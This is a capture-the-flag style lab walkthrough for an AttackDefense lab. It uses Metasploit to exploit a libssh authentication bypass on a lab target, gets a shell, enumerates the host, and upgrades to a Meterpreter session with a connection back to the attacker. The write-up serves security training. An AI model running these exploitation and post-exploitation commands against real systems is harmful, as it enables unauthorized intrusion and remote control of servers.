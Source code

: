# 🔬SSH - MSF Exploit

## Lab 1

>  🔬 [Vulnerable SSH server](https://www.attackdefense.com/challengedetails?cid=448)
>
>  - Target IP: `192.66.211.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [libssh Exploitdb](https://www.exploit-db.com/search?q=libssh)
>  - [libssh Authentication Bypass Scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/libssh_auth_bypass/)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.66.211.3
setg RHOST 192.66.211.3
workspace -a libssh
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.66.211.3
```

![db_nmap -sS -sV -O 192.66.211.3](assets/image-20230416142245546.png)

```bash
search libssh_auth_bypass
use auxiliary/scanner/ssh/libssh_auth_bypass
info
# Description:
#   This module exploits an authentication bypass in libssh server code 
#   where a USERAUTH_SUCCESS message is sent in place of the expected 
#   USERAUTH_REQUEST message. libssh versions 0.6.0 through 0.7.5 and 
#   0.8.0 through 0.8.3 are vulnerable. Note that this module's success 
#   depends on whether the server code can trigger the correct 
#   (shell/exec) callbacks despite only the state machine's 
#   authenticated state being set. Therefore, you may or may not get a 
#   shell if the server requires additional code paths to be followed.
options
set SPAWN_PTY true
run
sessions
sessions 3
```

![Metasploit - auxiliary/scanner/ssh/libssh_auth_bypass](assets/image-20230416142702051.png)

- Enumerate some information

```bash
id
cat /etc/*release
uname -r
```

![](assets/image-20230416142810774.png)

- Shell to `Meterpreter` post exploitation

```bash
background # or CTRL+Z
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 3
set LHOST eth1
run

sessions
sessions 4
```

![shell_to_meterpreter](assets/image-20230416142923675.png)

------

